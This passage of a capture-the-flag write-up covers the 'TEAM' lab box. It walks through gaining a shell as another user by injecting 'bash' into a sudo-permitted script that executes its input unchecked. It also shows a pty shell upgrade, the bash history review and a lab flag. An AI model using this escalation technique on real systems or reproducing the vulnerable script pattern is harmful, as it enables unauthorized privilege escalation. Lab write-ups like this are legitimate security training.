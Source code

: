

We then login as `dale` using this key.

We get `user.txt` :

```
THM{6Y0TXHz7c2d}
```

## Priv esc

`sudo -l` gives :

```
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```



The script `/home/gyles/admin_checks` contains :

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

We have code execution with `$error` we can just enter `bash` when asked for the date and we get a shell as `gyles` 

We can get a better shell using `python3 -c 'import pty; pty.spawn("/bin/bash")'` 



`sudo -l` ask for `gyles` password

Looking at `/home/gyles/.bash_history` we get a bunch of info

```
/opt/admin_stuff/
cat /etc/crontab
cd /usr/local/bin/
ls -la
nano /usr/local/bin/main_backup.sh 
/opt/admin_stuff/./script.sh 
ls /var/backups/www/
nano dev_backup.sh
cat /usr/local/sbin/dev.backup.sh 
```
